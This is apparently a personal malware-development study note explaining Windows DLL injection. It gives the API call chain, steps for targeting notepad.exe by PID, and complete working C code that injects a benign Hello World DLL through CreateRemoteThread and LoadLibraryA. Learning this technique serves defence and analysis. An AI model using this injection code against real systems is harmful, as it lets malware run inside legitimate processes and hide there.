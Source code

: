 ```yaml
---
description: 06-21-2023
---
```


# 📚 DLL Injection

## What is DLL Injection?

A process injection technique that <mark style="color:yellow;">allows a malicious actor to be able to inject arbitrary code into another process</mark>.&#x20;

The malware <mark style="color:yellow;">writes the path to it's malicious DLL in the virtual address space of a legit process</mark> using [WriteProcessMemory()](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory). This function will write data to an area of memory in a specified process.

It will then <mark style="color:yellow;">ensure the remote process loads it by creating a remote thread in the target process</mark>. This is performed via [CreateRemoteThread()](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread).

## High Level Explanation

Targeted Program.exe (victim) -> [OpenProcess()](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) -> [GetProcAddress()](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress) -> [VirtualAllocEx()](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) -> [WriteProcessMemory()](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) -> [CreateRemoteThread()](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)

1. <mark style="color:green;">Open/Create</mark> a process for injection
2. <mark style="color:green;">Allocate</mark> memory for the process
3. <mark style="color:green;">Write</mark> DLL's path to the region of allocated memory
4. <mark style="color:green;">Call</mark> <mark style="color:yellow;">LoadLibraryA</mark>/<mark style="color:yellow;">W</mark>/<mark style="color:yellow;">CreateRemoteThread()</mark> inside the remote process with the DLL path.

## PoC

{% embed url="https://github.com/0xXyc/maldev/blob/main/winAPI/dll-injection/inject-dll.c" %}

This program requires the usage of a single command line argument that will take an valid PID.&#x20;

Check task manager to target a specific process. This current build works on a Windows 11 machine, targetting a x64 executable, and utilizes a 64 bit DLL as of the time of this writing.

#### Instructions:

1. For example, start notepad
2. Right-click inside of task manager and select "Go to details"
3. Look for the PID of notepad.exe
4. Run the syntax below replacing \<PID> with the PID of notepad.exe

#### Syntax:

```
./inject-dll.exe <PID>
```

<figure><img src="../../.gitbook/assets/image (9) (8).png" alt=""><figcaption></figcaption></figure>

Notice how the Hello World messagebox appears in the same tab as notepad.exe on your taskbar:

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption><p>Proving our messagebox was successfully injected into notepad.exe</p></figcaption></figure>

inject-dll.c:

```c
#include <stdio.h>
#include <windows.h>

int main(int argc, char *argv[])
{
    HANDLE processHandle;
    HANDLE threadHandle;
    PVOID remoteBuffer;
    LPCSTR dllPath = "C:\\testcode\\hello-world-x64.dll";
    SIZE_T dllPathLength = strlen(dllPath) + 1;
    PTHREAD_START_ROUTINE threatStartRoutineAddress;

    printf("Injecting DLL to PID: %i\n", atoi(argv[1]));

    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, atoi(argv[1]));
    if(!processHandle)
    {
        printf("OpenProcess Failed: %d\n", GetLastError());
        return 0;
    }

    remoteBuffer = VirtualAllocEx(processHandle, NULL, dllPathLength, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    if(!remoteBuffer)
    {
        printf("VirtualAllocEx Failed: %d\n", GetLastError());
        return 0;
    }

    if(!WriteProcessMemory(processHandle, remoteBuffer, dllPath, dllPathLength, NULL))
    {
        printf("WriteProcessMemory Failed: %d\n", GetLastError());
        return 0;
    }

    threatStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryA");
    threadHandle = CreateRemoteThread(processHandle, NULL, 0, threatStartRoutineAddress, remoteBuffer, 0, NULL);
    if(!threadHandle)
    {
        printf("Remote thread failed. %d\n", GetLastError());
        return 0;
    }

    printf("Success\n");

    CloseHandle(threadHandle);
    CloseHandle(processHandle);

    return 0;
}
```

#### DLL:

{% embed url="https://github.com/carterjones/hello-world-dll/releases/tag/v1.0.0" %}

To Do:&#x20;

* I need to learn how to write my own DLL's
